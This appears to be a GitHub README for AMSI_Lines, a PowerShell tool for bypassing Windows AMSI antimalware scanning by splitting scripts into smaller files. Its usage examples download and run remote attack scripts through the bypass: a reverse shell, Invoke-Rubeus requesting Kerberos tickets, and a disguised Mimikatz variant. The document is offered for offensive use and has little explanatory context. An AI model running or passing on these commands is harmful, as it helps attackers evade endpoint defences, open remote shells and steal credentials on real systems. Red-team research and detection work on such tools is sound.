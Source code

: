 # AMSI_Lines

*Bypass AMSI By Dividing files  into multiple smaller files*

Blog post: https://x4sh3s.github.io/posts/Divide-and-bypass-amsi/

### How To Use It

1. Clone The repository: `git clone https://github.com/x4sh3s/AMSI_Lines.git`
2. import the module
```powershell
PS C:\AMSI_Lines>import-module AMSI.ps1
```
3. execute the function `AMSI_Lines` : `AMSI_Lines -File "Url of the File" -Command "Command to be executed directly"`

### Examples:

```powershell
AMSI_Lines -File http://127.0.0.1:8080/revshell.ps1 -Commands "-LHOST MyIp -Port 9001"
AMSI_Lines # This Will Execute Invoke-Rubeus By default with '-h' parameter
AMSI_Lines -file "https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1" -Commands "invoke-rubeus asktgt"
AMSI_Lines -file "http://127.0.0.1:8001/Invoke-Ninikatz.ps1" -Commands "invoke-ninikatz -command coffee"
```
![image](https://user-images.githubusercontent.com/65988560/206858344-097a4dce-6e78-4749-b204-1ba9614ad9f2.png)
